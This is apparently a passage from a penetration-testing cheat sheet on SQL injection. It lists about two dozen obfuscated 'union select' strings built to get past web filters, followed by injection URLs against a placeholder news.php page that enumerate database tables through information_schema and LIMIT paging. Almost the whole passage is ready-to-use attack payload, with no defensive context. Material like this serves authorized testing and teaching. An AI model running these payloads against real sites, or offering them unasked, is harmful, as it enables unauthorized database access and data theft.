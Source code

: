 ### Web Filter Bypass 'union select' keyword strigns

```
union select           
!UNiOn*/ /*!SeLEct*/
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*--*/union/*--*/select/*--*/
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0D%0ASeleCt%0D%0A 
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A 
```

### MySQL 5

For this you need information\_schema. It holds all tables and columns in database

To get tables you use **table\_name** and **information\_schema.table**s:

```
http://$ip/news.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
```

Here you replace the our number **2** with **table\_name** to get the first table from **information\_schema.tables** displayed on the screen. Now you must add **LIMIT** to the end of query to list out all tables.

```
http://$ip/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 0,1/*
```

{% hint style="info" %}
Note that i put 0,1 (get 1 result starting from the 0th) now to view the second table, you change limit 0,1 to limit 1,1
{% endhint %}

```
http://$ip/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
```
